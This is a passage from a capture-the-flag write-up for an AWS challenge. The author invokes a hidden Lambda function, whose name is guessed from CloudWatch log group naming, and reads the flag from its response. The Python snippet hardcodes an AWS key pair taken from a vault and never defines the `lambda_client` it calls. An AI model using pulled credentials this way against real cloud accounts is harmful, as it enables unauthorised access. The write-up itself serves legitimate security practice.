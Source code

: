This looks like some URLs that other CTF players tried to submit to the API. We can conclude from here that each invoke of the `web-service` Lambda function will log the URL that the user submitted. Thinking back on the challenge description "Log a cy-purr security case by invoking the mysterious function and retrieve the secret code!", our goal should be to invoke the Lambda function that logs to `/aws/lambda/internal-secret-of-MeowOlympurr-webservice`. This requires us to find the right function name, however `aws lambda list-functions` seems to be explicitly disallowed in our AWS role. I was stuck here for very long, until I realised a simple fact: by default, all AWS log groups are named after the Lambda function that produces the logs. We can see the case for `event-webservice`, so lets try `internal-secret-of-MeowOlympurr-webservice` as the function name. Modifying the Python snippet we have earlier on:
```python
import boto3
import requests
import json
import azure.functions as func
functionName = "internal-secret-of-MeowOlympurr-webservice"
keyName = "AKIA5G4XMRW7TLT6XD7R"
secret = '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'  # gotten from azure vault
url = 'https://enqr1887xbuvq.x.pipedream.net/'  # Requestbin end point (but pretty useless in solving)
session = boto3.Session(
    aws_access_key_id=keyName,
    aws_secret_access_key=secret
)
details = {"url" : url}
r = lambda_client.invoke(
    FunctionName=functionName,
    InvocationType="RequestResponse",
    Payload=bytes(json.dumps(details), "utf-8")
)
```
It invokes successfully! That means the function indeed exists. Thinking back on the log message "Details returned in response", we check the returned object for flag, and in the `payload` property of it, we finally found the flag!
The code to read the response is `r['Payload'].read().decode('utf-8')`. You can see the full code in [this notebook.](get flag.ipynb)

Flag is `STF22{LIveInTh3Me0wmen7_:3}`.